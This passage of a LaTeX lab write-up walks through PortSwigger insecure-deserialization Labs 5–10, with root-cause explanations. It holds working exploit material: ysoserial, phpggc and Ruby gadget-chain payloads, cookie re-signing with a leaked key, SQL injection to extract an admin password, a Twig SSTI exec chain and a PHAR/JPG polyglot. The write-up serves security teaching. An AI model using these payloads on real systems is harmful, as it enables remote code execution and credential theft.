ZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
class CustomTemplate {
    private $lock_file_path;
    function __destruct() {
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
$obj = unserialize($_COOKIE['session']);   # class name comes from the cookie itself!
\end{lstlisting}
The developer never restricted \textit{which} class \texttt{unserialize()} is allowed to build. As long as \textbf{any} autoloaded class has a dangerous magic method, an attacker can request that class by name in the payload -- this is the defining feature of PHP object injection.
\end{causebox}

\subsection{Lab 5: Exploiting Java Deserialization with Apache Commons}
\begin{labbox}{Goal}
The session cookie is a raw Java-serialized \texttt{AccessTokenUser} object and the app loads Apache Commons Collections. Use ysoserial to generate a pre-built \texttt{CommonsCollections} RCE gadget chain and delete \texttt{morale.txt}.
\end{labbox}
\begin{enumerate}
    \item Log in and inspect the session cookie in Decoder: after Base64-decoding it begins with \texttt{rO0}, confirming raw Java serialization.
    \item Send a request containing the cookie to Repeater.
    \item Download \texttt{ysoserial} and generate a payload with the \texttt{CommonsCollections4} chain (works reliably across several Commons Collections 4.x versions):
\begin{lstlisting}[style=code]
/usr/lib/jvm/java-8-openjdk/bin/java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
\end{lstlisting}
    \item In Repeater, replace the entire session cookie value with the generated Base64 string (kept on one line), then select it and URL-encode the reserved characters (mainly trailing \texttt{=} padding).
    \item Send the request. A \texttt{ClassCastException} mentioning \texttt{CommonsCollections} internals in the response confirms the chain executed; the lab is marked solved once the file is deleted.
\end{enumerate}
\begin{lstlisting}[style=http]
GET / HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=rO0ABXNyADJvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnM0Lm1hcC5MYXp5TWFwuHe8v0OpF
XcCAAFMAAdmYWN0b3J5dAAsTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9uczQvVHJhbnNmb3JtZXI7...(truncated)
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
ObjectInputStream in = new ObjectInputStream(request.getInputStream());
Object session = in.readObject();     # any class on the classpath can be reconstructed
\end{lstlisting}
The vulnerable "gadget" is not the application's own code at all -- it lives inside a third-party library (Apache Commons Collections' \texttt{LazyMap}/\texttt{TransformedMap}) that the developer never audited for deserialization safety, because they never intended it to be reachable from untrusted input.
\end{causebox}

\subsection{Lab 6: Exploiting PHP Deserialization with a Pre-Built Gadget Chain}
\begin{labbox}{Goal}
The session token is HMAC-signed and the framework is unknown. Leak the signing secret via a debug page, identify the framework (Symfony) from an error message, then use phpggc to generate a signed RCE payload.
\end{labbox}
\begin{enumerate}
    \item Log in and open the session cookie in Inspector: it is a JSON object \\ \verb|{"token":"<base64>","sig_hmac_sha1":"<hex>"}| where \texttt{token} decodes to a serialized \texttt{User} object.
    \item Notice an HTML comment on the account page linking to \texttt{/cgi-bin/phpinfo.php}; requesting it leaks a \texttt{SECRET\_KEY} environment variable.
    \item Corrupt the \texttt{token} value slightly and resend -- the resulting error discloses the framework and version, e.g.\ \texttt{Symfony: 4.3.6}.
    \item List matching gadget chains and generate one targeting that version range:
\begin{lstlisting}[style=code]
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
\end{lstlisting}
    \item Re-sign the new token with the leaked secret and rebuild the cookie JSON:
\begin{lstlisting}[style=code]
$object    = "<OUTPUT-FROM-PHPGGC>";
$secretKey = "<LEAKED-SECRET-KEY>";
$cookie = urlencode('{"token":"'.$object.'","sig_hmac_sha1":"'
                     .hash_hmac('sha1', $object, $secretKey).'"}');
\end{lstlisting}
    \item Replace the session cookie with this freshly signed value and send -- the signature check passes, \texttt{unserialize()} runs the Symfony \texttt{TagAwareAdapter} gadget chain, and the file is deleted.
\end{enumerate}
\begin{lstlisting}[style=http]
GET /my-account HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=%7B%22token%22%3A%22Tzo0NzoiU3ltZm9ueS4uLg%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22<NEW-HMAC>%22%7D
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
$data = json_decode($_COOKIE['session'], true);
if (hash_hmac('sha1', $data['token'], SECRET_KEY) === $data['sig_hmac_sha1']) {
    $user = unserialize(base64_decode($data['token']));  # signature only proves origin,
}                                                          # not that the CLASS is safe
\end{lstlisting}
Signing prevents tampering by outsiders who do \textit{not} know the secret, but once the secret leaks (here via a forgotten \texttt{phpinfo.php}), signing provides zero protection against a full gadget-chain payload -- integrity and safety are two different guarantees.
\end{causebox}

\subsection{Lab 7: Exploiting Ruby Deserialization Using a Documented Gadget Chain}
\begin{labbox}{Goal}
The session mechanism uses \texttt{Marshal} and the app runs Ruby on Rails. Adapt a publicly documented universal RCE gadget chain (Gem::Requirement / Net::BufferedIO) to delete \texttt{morale.txt}.
\end{labbox}
\begin{enumerate}
    \item Log in and Base64-decode the session cookie; the bytes begin with \verb|\x04\x08|, the signature of Ruby's \texttt{Marshal} format.
    \item Locate a documented universal Ruby deserialization RCE gadget chain (e.g.\ the public write-up ``Universal Deserialisation Gadget for Ruby 2.x/3.x'').
    \item Adapt the published script, replacing its example command with the target command:
\begin{lstlisting}[style=code]
i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")
n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)   # wa2 wraps 'rm /home/carlos/morale.txt'
t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)
r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)
payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
\end{lstlisting}
    \item Run the script, Base64- and URL-encode the output, and replace the session cookie value with it.
    \item Send the request -- \texttt{Marshal.load} reconstructs the crafted object graph, which ultimately shells out and deletes the file.
\end{enumerate}
\begin{lstlisting}[style=http]
GET / HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=BAhbCGMSR2VtOjpTcGVjRmV0Y2hlcmMOR2VtOjpJbnN0YWxsZXJvOhVHZW06OlJlcXVpcmVtZW50...(truncated)
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
session = Marshal.load(Base64.decode64(cookies[:session]))  # no class allowlist
\end{lstlisting}
Same root pattern as the Java case: \texttt{Marshal.load} will happily reconstruct \textit{any} object graph the byte stream describes, including internal state of standard-library classes that were never designed with untrusted deserialization in mind.
\end{causebox}

\subsection{Lab 8: Developing a Custom Gadget Chain for Java Deserialization}
\begin{labbox}{Goal}
No pre-built chain fits. Leak two \texttt{.java} source files, discover that \texttt{ProductTemplate.readObject()} concatenates its \texttt{id} field into raw SQL, and hand-craft a serialized object to perform a UNION-based SQL injection that extracts the administrator's password.
\end{labbox}
\begin{enumerate}
    \item The site map references \texttt{/backup/AccessTokenUser.java}; requesting it succeeds and reveals a simple serializable session class.
    \item Navigating up to \texttt{/backup/} also reveals \texttt{ProductTemplate.java}, whose \texttt{readObject()} builds \texttt{"SELECT * FROM products WHERE id = '" + id + "'"} directly from the deserialized \texttt{id} field.
    \item Write (or reuse the lab's provided) small Java program that instantiates a \texttt{ProductTemplate} with a UNION-injection payload as its \texttt{id}, serializes it, and Base64-encodes the result:
\begin{lstlisting}[style=code]
String payloadId = "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -";
ProductTemplate template = new ProductTemplate(payloadId);
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(template);
String b64 = Base64.getEncoder().encodeToString(baos.toByteArray());
\end{lstlisting}
    \item Send the payload in the session cookie; a \texttt{ClassCastException} (``cannot be cast to AccessTokenUser'') confirms the object deserialized successfully before the app's own type check failed -- proving the SQL already executed.
    \item Iterate the UNION payload to enumerate 8 columns and their types (using Hackvertor's \verb|@base64@|/\verb|@length@| tags to keep length prefixes correct automatically), then extract \texttt{administrator}'s password with an error-based UNION query, e.g.\ casting the password column to \texttt{numeric} to force a readable error containing the value.
    \item Log in as \texttt{administrator} with the recovered password and delete \texttt{carlos} to solve the lab.
\end{enumerate}
\begin{lstlisting}[style=http]
GET /product?productId=1 HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACa
WR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQATicgVU5JT04gQUxMIFNFTEVDVCAnMScsJzInLCczJyw0L
DUsJzYnLDcsJzgnLS0gLQ%3D%3D
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
private void readObject(ObjectInputStream in) throws IOException {
    in.defaultReadObject();
    String sql = "SELECT * FROM products WHERE id = '" + id + "'";  # concatenation, not
    stmt.executeQuery(sql);                                          # a bound parameter
}
\end{lstlisting}
This is a genuinely different mechanism from Labs 1-7: the deserialization step is not itself the RCE primitive -- it is merely the delivery vehicle that lets an attacker reach an otherwise-unreachable SQL injection sink inside a custom \texttt{readObject()} override.
\end{causebox}

\subsection{Lab 9: Developing a Custom Gadget Chain for PHP Deserialization}
\begin{labbox}{Goal}
Leaked source shows \texttt{CustomTemplate::\_\_wakeup()} builds a \texttt{Product} from a \texttt{desc} object, and \texttt{DefaultMap::\_\_get()} passes any missing-property read to \texttt{call\_user\_func()}. Wire these two unrelated gadgets together to achieve RCE and delete \texttt{morale.txt}.
\end{labbox}
\begin{enumerate}
    \item Log in and find the reference to \texttt{/cgi-bin/libs/CustomTemplate.php}; retrieve its source using the \texttt{.php\~{}} backup trick.
    \item Read the source: \verb|__wakeup()| calls \texttt{build\_product()}, which does \\ \verb|$this->product = new Product($this->default_desc_type, $this->desc)|; \texttt{Product}'s constructor does \verb|$this->desc = $desc->$default_desc_type| -- a dynamic property read on whatever object is in \texttt{desc}.
    \item Also present in scope: class \texttt{DefaultMap} with a \verb|__get($name)| magic method that executes \verb|call_user_func($this->callback, $name)| -- i.e.\ it will call any function named in \texttt{callback}, passing the requested (non-existent) property name as its argument.
    \item Chain them: set \texttt{CustomTemplate->desc} to a \texttt{DefaultMap} object whose \texttt{callback} is \texttt{"exec"}, and set \texttt{CustomTemplate->default\_desc\_type} to the shell command -- the dynamic property read \verb|$desc->$default_desc_type| becomes \\ \verb|$defaultMap->'rm /home/carlos/morale.txt'|, which triggers \verb|__get()| and runs \verb|exec('rm /home/carlos/morale.txt')|.
    \item Build and send the final serialized object as the session cookie.
\end{enumerate}
\begin{lstlisting}[style=http]
GET /my-account HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJyb
SAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzO
jg6ImNhbGxiYWNrIjtzOjQ6ImV4ZWMiO319
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
class CustomTemplate {
    public function __wakeup() { $this->build_product(); }
    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}
class Product {
    public function __construct($type, $desc) { $this->desc = $desc->$type; }  # dynamic
}
class DefaultMap {
    public function __get($name) { return call_user_func($this->callback, $name); }
}
\end{lstlisting}
Neither class was written with the other in mind, and neither is individually dangerous -- \texttt{DefaultMap} only becomes a code-execution primitive because \texttt{CustomTemplate::\_\_wakeup()} unexpectedly hands it attacker-controlled input during deserialization. This is the essence of manual gadget-chain construction: finding a "kick-off" magic method and following the data flow to a dangerous "sink" gadget elsewhere in the codebase.
\end{causebox}

\subsection{Lab 10: Using PHAR Deserialization to Deploy a Custom Gadget Chain}
\begin{labbox}{Goal}
The avatar-upload feature only accepts JPG and never calls \texttt{unserialize()} directly. Smuggle a PHAR archive inside a valid JPEG, upload it as an avatar, then trigger deserialization indirectly through a \texttt{phar://} filesystem check to reach an SSTI-based RCE chain and delete \texttt{morale.txt}.
\end{labbox}
\begin{enumerate}
    \item Upload a normal JPG as your avatar; note it is served via \\  \texttt{GET /cgi-bin/avatar.php?avatar=wiener}.
    \item Request \texttt{GET /cgi-bin} to discover an index listing \texttt{Blog.php} and \texttt{CustomTemplate.php}; retrieve both via the \texttt{.php\~{}} trick.
    \item Read the source: \texttt{CustomTemplate}'s \verb|__wakeup()| calls \texttt{file\_exists()} on a \texttt{lockFilePath} derived from a \texttt{Blog} object's \texttt{desc} field, and \texttt{Blog} uses the Twig template engine to render \texttt{desc} -- an SSTI sink.
    \item Build a Twig SSTI payload that shells out, e.g.\ using \verb|registerUndefinedFilterCallback| to call \texttt{exec}, and embed it in a \texttt{CustomTemplate} → \texttt{Blog} object graph:
\begin{lstlisting}[style=code]
class CustomTemplate {} class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->user = "any_user";
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}'
            . '{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$object->template_file_path = $blog;
\end{lstlisting}
    \item Serialize this object graph, embed it as the \textbf{metadata} of a freshly built PHAR archive, then wrap the PHAR in a valid JPEG header (a PHAR/JPG polyglot) so it passes the upload filter, and upload it as the avatar.
    \item In Repeater, change the avatar request to use the \texttt{phar://} stream wrapper against your own uploaded file: \texttt{GET /cgi-bin/avatar.php?avatar=phar://wiener}. The filesystem check inside \texttt{avatar.php} triggers PHAR metadata deserialization, executing the gadget chain and deleting the file.
\end{enumerate}
\begin{lstlisting}[style=http]
GET /cgi-bin/avatar.php?avatar=phar://wiener HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=<SESSION>
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
if (file_exists($avatarPath)) {     # phar:// wrapper silently deserializes metadata here
    return readfile($avatarPath);
}
\end{lstlisting}
This is the most important edge case in the entire vulnerability class: \textbf{deserialization can occur without any call to \texttt{unserialize()} at all.} Any filesystem function invoked on a \texttt{phar://} path deserializes that archive's metadata as a side effect, so upload filters and "we never call unserialize on user input" audits both miss this vector entirely.
\end{causebox}


\section{References}
\begin{itemize}
    \item PortSwigger Web Security Academy -- Insecure Deserialization: \url{https://portswigger.net/web-security/deserialization}
    \item PortSwigger -- Exploiting insecure deserialization vulnerabilities (July 2020): \url{https://portswigger.net/web-security/deserialization/exploiting}
    \item PayloadsAllTheThings -- Insecure Deserialization: \url{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization}
    \item ysoserial (Java gadget chains): \url{https://github.com/frohoff/ysoserial}
    \item phpggc (PHP Generic Gadget Chains): \url{https://github.com/ambionics/phpggc}
    \item phar-jpg-polyglot: \url{https://github.com/kunte0/phar-jpg-polyglot}
    \item Chris Frohoff \& Gabriel Lawrence, ``Marshalling Pickles: How Deserializing Objects Will Ruin Your Day'' (AppSecCali 2015) -- origin of the Apache Commons Collections gadget chain and ysoserial.
    \item OWASP -- Deserialization Cheat Sheet: \url{https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html}
    \item devcraft.io -- Universal Deserialisation Gadget for Ruby 2.x/3.x: \url{https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html}
\end{itemize}

\end{document}